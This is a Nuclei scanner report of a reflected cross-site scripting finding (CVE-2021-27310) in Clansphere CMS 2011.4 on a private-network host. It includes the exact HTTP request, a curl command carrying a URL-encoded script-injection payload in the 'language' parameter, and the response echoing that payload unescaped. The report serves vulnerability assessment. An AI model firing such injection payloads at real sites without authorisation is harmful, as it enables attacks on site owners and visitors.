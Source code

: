 ### Clansphere CMS 2011.4 - Reflected Cross-Site Scripting (XSS) (CVE-2021-27310) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-27310**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/clansphere/mods/clansphere/lang_modvalidate.php?language=language%27%22()%26%25%3Cyes%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&module=module

**Timestamp**: Wed Jun 8 20:22:08 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Clansphere CMS 2011.4 - Reflected Cross-Site Scripting (XSS) |
| Authors | alph4byt3 |
| Tags | xss, cve, cve2021, clansphere |
| Severity | medium |
| Description | Clansphere CMS 2011.4 allows unauthenticated reflected XSS via "language" parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-27310](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-27310) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /clansphere/mods/clansphere/lang_modvalidate.php?language=language%27%22()%26%25%3Cyes%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&module=module HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 280
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/clansphere/mods/clansphere/lang_modvalidate.php?language=language'"()&%<yes></script><script>alert(document.domain)</script>&module=module</B> was not found.</BODY></HTML>
```

References: 
- https://github.com/xoffense/poc/blob/main/clansphere%202011.4%20%22language%22%20xss.md
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-27310

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36' 'http://192.168.198.179:8080/clansphere/mods/clansphere/lang_modvalidate.php?language=language%27%22()%26%25%3Cyes%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&module=module'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)